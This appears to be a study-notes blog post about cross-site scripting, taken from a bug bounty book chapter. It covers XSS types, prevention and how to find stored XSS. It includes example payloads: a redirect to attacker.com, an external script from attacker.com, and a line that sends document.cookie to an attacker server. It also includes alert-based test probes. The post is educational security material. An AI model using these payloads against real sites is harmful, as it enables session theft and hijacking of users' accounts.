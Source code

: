 ```yaml
---
layout: post
title: CROSS-SITE SCRIPTING (XSS)
date: 2023-07-17
categories: [cybersecurity, web-security,Bug_Bounty_Bootcamp_The_Guide_to_Finding_and_Reporting_Web_Vulnerabilities,XSS ]
---
```



# Chapter 6 : CROSS-SITE SCRIPTING

An XSS vulnerability occurs when attackers can execute custom scripts on a victim's browser. If an application fails to distinguish between user input and the legitimate code that makes up a web page, attackers can inject their own code into pages viewed by other users. The victim's browser will then execute the malicious script, which might steal cookies, leak personal information, change site contents, or redirect the user to a malicious site. These malicious scripts are often JavaScript code but can also be HTML, Flash, VBScript, or anything written in a language that the browser can execute.

# XSS Injection Methods

There are different ways that attackers can inject malicious code into web pages, such as:

1. Inline script injection: The attacker inserts a `<script>` tag with the code directly into the web page. For example: 
```html
<script>location = "http://attacker.com";</script>
```

2. External script source injection: The attacker uses the `src` attribute of the `<script>` tag to load the code from an external source. For example: `<script src="http://attacker.com/xss.js"></script>`.

3. Malicious URL injection: The attacker crafts a URL that contains the code as a parameter and tricks the user into visiting it. For example: `https://subscribe.example.com?email=<script>location="http://attacker.com";</script>`.

4. Stealing user cookies: The attacker uses the `document.cookie` property to access and send the user’s cookies to a malicious server. For example: `<script>image = new Image(); image.src='http://attacker_server_ip/?c='+document.cookie;</script>`.

# After All

## XSS Prevention

The best way to prevent XSS attacks is to apply proper input validation and output encoding for all user input. Input validation means checking and filtering the user input before processing it. Output encoding means converting the user input into a safe format before inserting it into a web page. For example, HTML entities can be used to encode special characters that have meaning in HTML, such as `<`, `>`, `"`, `'`, and `&`. There are also other techniques and tools that can help prevent XSS, such as using HTTP-only cookies, implementing content security policy (CSP), and using web application firewalls (WAF).

# Types of XSS

There are three main types of XSS attacks:

- Reflected XSS: The attacker’s code is sent as part of the user’s request and reflected back by the server in the response. The user has to click on a malicious link or visit a malicious site to trigger the attack.
- Stored XSS: The attacker’s code is stored on the server, such as in a database, a comment field, or a profile. The user views the affected web page and executes the code without any interaction.
- DOM-based XSS: The attacker’s code is executed in the user’s browser by manipulating the DOM (Document Object Model) of the web page. The code never leaves the browser and does not involve the server.

## What is Stored Cross-Site Scripting?

Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

### Example Scenario on how Stored XSS Works

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP request like the following:
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:
```html
<p>This post was extremely helpful.</p>
```
### what an Attack can do 
Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:
```html
<script>/* Bad stuff here... */</script>
```
Within the attacker's request, this comment would be URL-encoded as:
`comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E
`
Any user who visits the blog post will now receive the following within the application's response:

```html
<p><script>/* Bad stuff here... */</script></p>
```
## Finding Stored XSS Vulnerabilities

To find stored XSS vulnerabilities, you need to test all relevant entry points and exit points in the application. Entry points are where the attacker can submit data to the application, such as URL parameters, form inputs, or HTTP headers. Exit points are where the data is displayed to other users, such as web pages, emails, or logs.

1. **Identify Entry and Exit Points:**
   Entry points are areas where users can input data, and exit points are places where that data is displayed to others. For example, consider a blog post comment feature, where users can input comments, and those comments are displayed on the blog post page.

2. **Test Links Between Points:**
   Submit specific values to the entry points and observe the application's responses. For example, submit the comment "test123" and see if it appears on the blog post page. If the comment is visible, proceed to the next step.

3. **Check Data Storage:**
   Determine if the data is stored on the server or just reflected in the immediate response. Suppose the application stores the comment data in a database, and when the blog post page is accessed, it retrieves and displays the stored comments.

4. **Test XSS Payloads:**
   Inject suitable XSS payloads into each context where the data appears. For example, try injecting the script tag `<script>alert('XSS')</script>` into the comment. If the script executes on the browser when displayed within an HTML context, it indicates a stored XSS vulnerability.


### Entry Point to application can be like : 
   
- Parameters in the URL Query String and Message Body:

In a web application, there might be a search functionality that allows users to search for products using the URL query string. For example: https://example.com/search?keyword=user_input, where user_input is the search term provided by the user. If the application doesn't properly validate and sanitize this input, it becomes vulnerable to XSS attacks. An attacker could inject malicious scripts, like <script>alert('XSS');</script>, into the search term. If the application reflects this input back to other users without proper encoding, the script could execute in their browsers.

- The URL File Path:

Suppose a web application serves different pages based on the URL file path, like https://example.com/pages/page1.html, where page1.html represents a specific page on the website. If the application fails to handle the file path securely, an attacker could manipulate it and attempt to inject scripts. For example, an attacker might try to access a non-existing page like https://example.com/pages/<script>alert('XSS');</script>, hoping the application reflects the input in the response and triggers an XSS vulnerability.

- HTTP Request Headers:

Although HTTP request headers are not typically exploited for reflected XSS, they can be entry points for other types of attacks or security issues. For instance, an application might rely on a custom request header for authentication or session management. If the application doesn't validate and handle these headers securely, attackers might manipulate them to gain unauthorized access or perform malicious actions.

- Out-of-Band Routes:

Consider a web application that aggregates news articles from external websites. The application processes and displays these articles on its platform. If the application fails to sanitize data received from external sources, an attacker could inject malicious content into these articles. For instance, the attacker might compromise an external news source and inject a malicious script into one of the articles. When the web application displays this article to its users, it unknowingly executes the malicious script, leading to an XSS attack.



